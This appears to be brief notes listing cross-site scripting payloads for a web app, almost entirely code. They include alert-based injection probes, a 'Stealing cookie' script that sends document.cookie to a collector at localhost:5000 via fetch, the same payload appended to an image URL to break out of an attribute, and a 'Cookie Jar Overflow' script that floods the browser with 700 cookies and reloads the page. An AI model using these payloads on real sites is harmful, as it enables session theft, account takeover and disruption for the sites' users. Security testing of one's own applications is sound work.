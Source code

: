 ## test xss injection

" <script> alert(document.cookie)</script>

## Stealing cookie

"> <script> fetch('http://localhost:5000/' + document.cookie) </script>
"> <script> alert(document.cookie) </script>

https://images.unsplash.com/photo-1563360808-a0bdf4450651?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=696&q=80"> <script> fetch('http://localhost:5000/' + document.cookie) </script>

## Cookie Jar Overflow

https://images.unsplash.com/photo-1563360808-a0bdf4450651?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=696&q=80"><script>for(let i=0; i<700; i++) {document.cookie = `cookie${i}=${i}`};location.reload();</script>

<input value=""><script>alert("tesing if xss work"</script>"> </input>

